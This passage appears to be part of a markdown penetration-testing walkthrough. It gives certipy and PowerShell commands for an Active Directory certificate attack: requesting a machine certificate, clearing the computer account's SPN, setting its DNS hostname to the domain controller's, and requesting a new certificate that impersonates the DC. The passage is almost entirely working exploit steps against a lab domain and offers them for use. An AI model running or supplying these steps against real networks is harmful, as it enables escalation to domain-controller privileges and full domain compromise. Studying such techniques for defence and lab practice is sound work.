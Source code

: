     # Request certification for the computer
    # Use your own username and password (ex. 'MYPC$:MyPcPassword')
    certipy req 'vuln.local/MYPC$:MyPcPassword@vuln.com' -ca VULNDC-CA -template Machine

    # Authentication
    certipy auth -pfx mypc.pfx
    ```

4. **Update the DNS Hostname and SPN Attributes**

    ```sh
    # Connect using SSH
    ssh vuln.local\\username@vulndc

    # ---------------------------------------------

    # On target Windows machine

    # Start PowerShell
    powershell

    # Get the machine which participates the Active Directory
    Get-ADComputer MYPC -properties dnshostname,serviceprincipalname

    # Remove the current SPN attribute
    Set-ADComputer MYPC -ServicePrincipalName @{}

    # Then, set the DNS hostname to that of the DC
    Set-ADComputer MYPC -DnsHostName VULNDC.vuln.local
    ```

5. **Malicious Certificate (Get Another Machine Certificate)**

    ```sh
    # Request a new certificate for the computer again.
    certipy req 'vuln.local/MYPC$:MyPcPassword@vuln.com' -ca VULNDC-CA -template Machine

    # Then, we got a certificate for the another machine. 
    certipy auth -pfx ca.pfx
    ```
